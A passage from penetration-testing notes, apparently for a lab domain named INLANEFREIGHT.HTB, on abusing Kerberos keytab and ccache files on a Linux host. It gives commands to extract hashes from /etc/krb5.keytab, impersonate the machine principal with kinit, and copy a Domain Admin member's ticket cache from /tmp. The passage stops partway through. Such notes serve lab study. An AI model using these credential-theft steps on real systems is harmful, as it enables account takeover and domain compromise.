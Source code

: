     python3 /opt/keytabextract.py /etc/krb5.keytab
    # we can try to crack it to get hash

    # or we can use the keytab with kinit
    kinit "LINUX01\$@INLANEFREIGHT.HTB" -k -t /etc/krb5.keytab
    # need to escape the character, without that it will give an error

    klist
    # now we are using the LINUX01 principal

    smbclient //dc01/linux01 -k -c ls
    ```
  
  * abusing keytab ccache:

    ```sh
    # we need read privileges on ccache file, usually only for user who created them
    # so we need root access to abuse them

    ls -la /tmp
    # check for ccache files
    # not all ccache files are valid, so if there are multiple files, we need to check all of them

    id julio@inlanefreight.htb
    # identify group membership for target user
    # part of Domain Admins group

    klist
    # check for current ccache

    cp /tmp/krb5cc_647401106_I8I133 .
    # copy ccache file to current dir
